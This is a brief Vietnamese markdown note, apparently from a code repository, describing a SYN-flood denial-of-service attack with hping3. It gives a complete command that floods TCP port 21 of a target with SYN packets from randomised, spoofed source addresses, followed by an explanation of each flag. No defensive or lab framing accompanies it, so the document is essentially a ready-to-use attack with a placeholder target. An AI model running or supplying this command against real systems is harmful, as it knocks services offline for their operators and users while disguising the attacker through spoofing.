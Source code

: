 **Mô tả:** Tấn công DDoS SYN Flood bằng hping3

**Câu lệnh thực thi:**
```bash
hping3 -c 1000 -d 120 -S -w 64 -p 21 --flood --rand-source <ip-target>
```

- -c 1000: Gửi 1000 gói tin. 
- -d 120: Kích thước dữ liệu mỗi gói là 120 byte. 
- -S: Đặt cờ SYN trong gói tin TCP (mô phỏng kết nối TCP chưa hoàn chỉnh). 
- -w 64: Đặt kích thước cửa sổ TCP là 64. 
- -p 21: Nhắm đến cổng 21 (dịch vụ FTP). 
- --flood: Gửi gói tin nhanh nhất có thể. 
- --rand-source: Sử dụng địa chỉ IP nguồn ngẫu nhiên (spoofing). 
- `<ip-target>`: Địa chỉ IP đích của mục tiêu.
